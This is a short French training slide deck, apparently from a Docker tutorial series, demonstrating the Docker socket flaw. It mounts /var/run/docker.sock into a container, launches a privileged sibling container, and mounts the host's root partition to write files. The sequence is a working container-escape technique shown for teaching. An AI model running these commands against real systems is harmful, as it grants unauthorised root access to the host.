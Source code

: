 %title: Docker
%author: xavki

# Docker : la faille de la socket / rootless



<br>
* faille de docker in docker ou de la socket docker

* socket 
		* port 2375 des machines docker (désactivé par défaut)
		* /var/run/

* monter la socket docker dans un conteneur (cf docker in docker DinD)

```
docker run -ti --restart unless-stopped --name dind -v /var/run/docker.sock:/var/run/docker.sock ubuntu /bin/sh
```

* un coup d'oeil à l'extérieur de qui je suis

```
ps aux | grep "docker run"
```

et on se dit que tout va bien ??? j'ai un doute

* installons docker dans le conteneur

```
apt install docker.io
```

--------------------------------------------------------------------

# Docker : la faille de la socket

<br>
* et je me mets un petit conteneur pour faire mon curieux...

```
docker run -d --name root --privileged ubuntu sleep 60000
docker exec -ti root /bin/bash
```

* où suis-je ?

Host >> conteneur (docker) >> vous êtes ici !!!


<br>
* lister les partitions

```
fdisk -l
```

<br>
* monter la partition principale

```
mount /dev/dm-1 /mnt/
ls /mnt
touch /mnt/tmp/xavki.root
```

et c'est open-bar dans /mnt
